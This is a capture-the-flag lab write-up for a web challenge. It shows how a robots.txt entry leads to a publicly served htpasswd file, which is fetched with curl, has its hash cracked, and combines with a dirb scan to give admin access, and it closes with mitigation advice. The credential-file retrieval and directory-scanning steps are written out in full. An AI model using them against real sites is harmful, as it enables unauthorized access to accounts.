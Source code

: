 # Exploit

If we check the robots.txt, we can see a /whatever directory, with an htpasswd inside:

![](Ressources/images/robots.jpg)  
![](Ressources/images/whatever.jpg)

We can't display htpasswd's content in the browser, as it's an octet stream.
If we use curl:

```
[darkly@darkly] ~/03-sensitive_data_exposure # curl http://192.168.0.160/whatever/htpasswd
root:8621ffdbc5698829397d97767ac13db3
```

Let's try to see if we can crack it on [https://crackstation.net]:

![](Ressources/images/crack-pwd.jpg)

We have no success loging via the Sign In form with the root:dragon credentials.

Let's try to see if there's a page dedicated to root users, by using the `dirb` web content scanner.

```
[darkly@darkly] ~/03-sensitive_data_exposure/Ressources # dirb http://192.168.0.160

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Nov 19 00:45:53 2020
URL_BASE: http://192.168.0.160/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.160/ ----
==> DIRECTORY: http://192.168.0.160/admin/
==> DIRECTORY: http://192.168.0.160/audio/
==> DIRECTORY: http://192.168.0.160/css/
==> DIRECTORY: http://192.168.0.160/errors/
+ http://192.168.0.160/favicon.ico (CODE:200|SIZE:1406)
==> DIRECTORY: http://192.168.0.160/fonts/
==> DIRECTORY: http://192.168.0.160/images/
==> DIRECTORY: http://192.168.0.160/includes/
+ http://192.168.0.160/index.php (CODE:200|SIZE:6892)
==> DIRECTORY: http://192.168.0.160/js/
+ http://192.168.0.160/robots.txt (CODE:200|SIZE:53)
==> DIRECTORY: http://192.168.0.160/whatever/

---- Entering directory: http://192.168.0.160/admin/ ----
==> DIRECTORY: http://192.168.0.160/admin/css/
==> DIRECTORY: http://192.168.0.160/admin/fonts/
+ http://192.168.0.160/admin/index.php (CODE:200|SIZE:1432)

---- Entering directory: http://192.168.0.160/audio/ ----

---- Entering directory: http://192.168.0.160/css/ ----
==> DIRECTORY: http://192.168.0.160/css/images/

---- Entering directory: http://192.168.0.160/errors/ ----

---- Entering directory: http://192.168.0.160/fonts/ ----

---- Entering directory: http://192.168.0.160/images/ ----

---- Entering directory: http://192.168.0.160/includes/ ----

---- Entering directory: http://192.168.0.160/js/ ----

---- Entering directory: http://192.168.0.160/whatever/ ----
+ http://192.168.0.160/whatever/htpasswd (CODE:200|SIZE:38)

---- Entering directory: http://192.168.0.160/admin/css/ ----
==> DIRECTORY: http://192.168.0.160/admin/css/images/

---- Entering directory: http://192.168.0.160/admin/fonts/ ----

---- Entering directory: http://192.168.0.160/css/images/ ----

---- Entering directory: http://192.168.0.160/admin/css/images/ ----

-----------------
END_TIME: Thu Nov 19 00:46:16 2020
DOWNLOADED: 64568 - FOUND: 5

```

Heading to the admin page, we can fill out login and password and get the flag:

![](Ressources/images/admin.jpg)

# Mitigating the risk

If you use the X-Robots-Tag header, you can control what is displayed in the Robots.txt.

Although using htaccess and htpasswd to handle authentication cannot be completely foolproof, several steps can help migitate the risk:

- Choose a more complex password
- Never put the htpasswd in public directories or within the web servers URI space, as discussed[here](https://httpd.apache.org/docs/2.4/programs/htpasswd.html) - and don't rely on "hidden" directories
- Add protection with rules, such as specified in the nginx [official doc](https://docs.nginx.com/nginx/admin-guide/security-controls/configuring-http-basic-authentication/), or via .htaccess and httpd.conf if using Apache, as discussed [here](https://stackoverflow.com/questions/12291080/proper-htpasswd-usage).
